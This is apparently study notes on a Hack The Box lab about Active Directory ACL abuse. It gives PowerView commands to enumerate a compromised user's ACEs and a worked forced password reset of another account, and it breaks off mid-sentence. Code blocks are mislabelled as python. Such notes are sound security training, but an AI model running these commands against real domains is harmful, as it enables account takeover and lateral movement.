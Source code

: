 ```yaml
---
layout: default
---
```

# ACL - Enumeration &  Abuse

## Why are ACEs Important?

💡 Attackers utilize ACE entries to either further access or establish persistence. 
These can be great for us as penetration testers as many organizations are unaware of the ACEs applied to each object or the  impact that these can have if applied incorrectly. 
They cannot be  detected by vulnerability scanning tools, and often go unchecked for  many years, especially in large and complex environments. During an assessment where the client 
has taken care of all of the "low hanging fruit" AD flaws/misconfigurations, ACL abuse can be a great way for us to move laterally/vertically and even achieve full domain compromise. 
Some example Active Directory object security permissions are as follows. These can be enumerated (and visualized) using a tool such as BloodHound, and are all abusable with PowerView, among other tools:



```python
	
- ForceChangePassword:  abused with Set-DomainUserPassword
- Add Members:  abused with Add-DomainGroupMember
- GenericAll:  abused with Set-DomainUserPassword or Add-DomainGroupMember
- GenericWrite:  abused with Set-DomainObject
- WriteOwner:  abused with Set-DomainObjectOwner
- WriteDACL:  abused with Add-DomainObjectACL
- AllExtendedRights:  abused with Set-DomainUserPassword or Add-DomainGroupMember
- Addself:  abused with Add-DomainGroupMember
```

## ACL Enumeration With Powerview

**Assume we have username wley as compromised user**

### ForceChangePassword
#### using Get-DomainObjectACL

```python
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid wley
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}

##Vulnerable Output
ObjectDN               : CN=Dana Amundsen,OU=DevOps,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ObjectAceType          : 00299570-246d-11d0-a768-00aa006e0529

# ObjectAceType with above value meaning for Force-change-password
#https://learn.microsoft.com/id-id/windows/win32/adschema/r-user-force-change-password
```


#### Using -ResolveGUIDs Flag
```python
Import-Module .\PowerView.ps1
$sid = Convert-NameToSid wley
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}

##output Yang Diharapkan
ObjectDN               : CN=Dana Amundsen,OU=DevOps,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : User-Force-Change-Password
```

#### Enumerate All User
```python
Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName > ad_users.txt
foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl  "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}

```

### Abusing Force Change Password
**changing wley password without knowing his old password**

1. Store Password user kita ke powershell credential
   
```python
   PS C:\htb> $SecPassword = ConvertTo-SecureString '<PASSWORD Kita >' -AsPlainText -Force
   PS C:\htb> $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
```

3. Kemudian create password dari user target (eg disini user damundsen yang bisa kita ganti)
```python
PS C:\htb> $damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\htb> Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```

#### Generic Write

```python
# Generic All Enumeration
$sid2 = Convert-NameToSid damundsen
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid2} -Verbose

AceType               : AccessAllowed
ObjectDN              : CN=Help Desk Level 1,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ListChildren, ReadProperty, GenericWrite
*Now we can see that our user damundsen has GenericWrite privileges over the Help Desk Level 1 group. and with 

```
